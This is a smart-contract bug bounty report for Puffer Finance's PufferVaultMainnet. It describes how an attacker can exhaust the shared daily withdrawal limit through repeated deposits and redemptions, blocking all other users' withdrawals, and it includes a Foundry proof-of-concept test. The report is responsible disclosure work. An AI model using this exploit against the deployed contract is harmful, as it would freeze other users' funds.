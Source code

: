 
# Attacker Prevents All Users From Withdrawing Funds by Exploiting The Daily Withdrawal Limit

Submitted on Thu Feb 22 2024 16:35:17 GMT-0400 (Atlantic Standard Time) by @misuz for [Boost | Puffer Finance](https://immunefi.com/bounty/pufferfinance-boost/)

Report ID: #28645

Report type: Smart Contract

Report severity: Insight

Target: https://etherscan.io/address/0xd9a442856c234a39a81a089c06451ebaa4306a72

Impacts:
- Temporary freezing of funds for at least 1 hour

## Description
## Vulnerability Details
 
In the `PufferVaultMainnet`contract, an attacker (who might potentially be a Puffer's competitor) can exploit the daily withdrawal limit by repeatedly depositing then withdrawing assets from the vault, deliberately making `_getPufferVaultStorage().assetsWithdrawnToday = _getPufferVaultStorage().dailyAssetsWithdrawalLimit` and `getRemainingAssetsDailyWithdrawalLimit() = 0`. This can be achieved using their own funds or funds obtained via a flash loan.

Even if the protocol raises the daily withdrawal limit, the attacker still can persist in exploiting this vulnerability until the daily limit is reached again. If the protocol then raises the daily limit to be unlimited, the attacker will continue depositing stETH and withdrawing WETH from the vault till when the liquidity of WETH and ETH in the vault is 0, resulting in all users of the protocol being unable to withdraw their assets from the vault. 

## Impact Details

All funds deposited by users into the vault become inaccessible for withdrawal.

## Recommendation

It is recommended to implement a daily withdrawal limit for every user (on a user level) to mitigate the risk of this vulnerability.
        
## Proof of concept
## Proof of Concept

```
    // forge t --mt test_attacker_causes_freezing_of_funds -vvvv
    function test_attacker_causes_freezing_of_funds()
        public
        giveToken(BLAST_DEPOSIT, address(stETH), alice, 1000 ether)
        giveToken(BLAST_DEPOSIT, address(stETH), bob, 1000 ether)
        giveToken(MAKER_VAULT, address(_WETH), dave, 51 ether)
    {
        // Pre-mainnet version
        // Alice and Bob deposited 1k ETH
        vm.startPrank(alice);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, alice);

        vm.startPrank(bob);
        SafeERC20.safeIncreaseAllowance(
            IERC20(stETH),
            address(pufferVault),
            type(uint256).max
        );
        pufferVault.deposit(1000 ether, bob);

        // Upgraded to mainnet
        _upgradeToMainnetPuffer();

        // Dave - the attacker purposely deposits and withdraws assets so that the daily withdrawal limit is reached, causes freezing of funds
        vm.startPrank(dave);
        SafeERC20.safeIncreaseAllowance(
            _WETH,
            address(pufferVault),
            type(uint256).max
        );
        uint256 pufETHMintedFirst = pufferVault.deposit(50 ether, dave);

        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedFirst,
            dave,
            dave
        );
        uint256 pufETHMintedSecond = pufferVault.deposit(50 ether, dave);
        PufferVaultMainnet(payable(address(pufferVault))).redeem(
            pufETHMintedSecond,
            dave,
            dave
        );

        // Alice now can't withdaw
        vm.startPrank(alice);
        vm.expectRevert();
        pufferVault.withdraw(10 ether, alice, alice);
    }
```